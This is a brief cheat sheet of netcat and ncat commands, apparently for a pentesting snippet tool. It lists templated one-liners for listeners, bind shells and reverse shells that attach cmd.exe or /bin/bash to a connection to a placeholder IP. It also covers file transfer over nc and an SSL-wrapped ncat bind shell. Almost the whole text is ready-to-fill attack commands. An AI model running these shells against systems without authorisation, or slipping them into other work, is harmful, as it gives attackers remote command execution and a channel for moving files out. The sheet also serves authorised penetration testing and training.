 # netcat

% nc, netcat

## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfert file - receiver
```
nc -nlvp <port> > <incomming_file>
```

## nc transfert file - sender
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
```
ncat -v <ip> <port> --ssl
```

